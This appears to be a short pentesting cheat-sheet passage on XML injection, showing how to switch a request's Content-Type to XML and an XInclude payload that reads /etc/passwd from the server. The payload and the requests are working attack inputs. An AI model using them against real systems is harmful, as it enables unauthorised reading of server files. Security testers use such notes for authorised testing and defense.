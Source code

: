#xmli #xml 

When client **can't control the entire XML** (can't control `DOCTYPE`). Example:

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

## Try Change Content Type
```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```


## XInclude Attack (no DOCTYPE)

XInclude allows an XML document to be built from sub-documents. This can be used in any data value in an XML document. By default, XInclude will try to parse the included document as XML so we need to add `parse="text"`.

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
	<xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```
